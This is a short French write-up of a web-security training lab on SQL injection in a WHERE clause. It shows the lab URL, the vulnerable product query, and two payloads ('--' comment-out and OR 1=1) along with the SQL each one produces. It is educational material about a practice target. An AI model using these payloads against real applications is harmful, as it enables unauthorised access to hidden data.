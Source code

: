 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Ce que nous avons

#### Une URL :

```
https://ac6a1f9b1fce2456c0b0092b00b800e0.web-security-academy.net/
```

#### Des filtres :

```
https://ac6a1f9b1fce2456c0b0092b00b800e0.web-security-academy.net/filter?category=Gifts
```

Ces filtres sont accessible par l'url et donc modifiable.
Ils servent à effectuer une requête SQL pour récupérer les éléments d'une table.

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

## Modification de filtres

#### Elements non released

J'ai d'abord modifié les filtres pour afficher tout les éléments même les éléments non marqué comme "released" en commentant les reste de la requête SQL

```
filter?category=Gifts'--

SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

#### Tout les élément

Pour finir j'ai entré une condition qui sera toujours vrai pour annuler le filtre par catégories

```
filter?category=Gifts'+OR+1=1--

SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```
